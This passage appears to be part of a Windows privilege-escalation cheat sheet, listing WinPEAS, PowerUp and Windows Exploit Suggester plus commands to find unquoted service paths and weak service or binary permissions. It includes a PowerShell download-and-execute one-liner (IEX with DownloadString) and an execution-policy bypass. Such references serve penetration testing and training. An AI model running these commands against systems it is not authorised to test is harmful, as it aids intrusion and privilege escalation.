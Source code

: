 ## Automated Tools

### WinPEAS
```cmd
# Download and run WinPEAS
powershell -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1')"
```

### PowerUp
```powershell
# Import PowerUp module
powershell -ep bypass
Import-Module .\PowerUp.ps1
Invoke-AllChecks
```

### Windows Exploit Suggester
```bash
# On Kali Linux
python windows-exploit-suggester.py --database 2021-09-21-mssb.xls --systeminfo systeminfo.txt
```

## Service Exploits

### Unquoted Service Paths
Look for services with unquoted paths containing spaces:

```cmd
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
```

### Service Permissions
Check if you can modify service configurations:

```cmd
# Check service permissions
accesschk.exe -uwcqv "Authenticated Users" *
accesschk.exe -uwcqv "Everyone" *
accesschk.exe -uwcqv "Users" *
```

### Service Binary Permissions
```cmd
# Check if service binaries are writable
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\temp\permissions.txt
for /f %a in (c:\temp\permissions.txt) do @(icacls "%a" 2>nul | findstr "(M)" | findstr "Everyone\|BUILTIN\|Users")
```
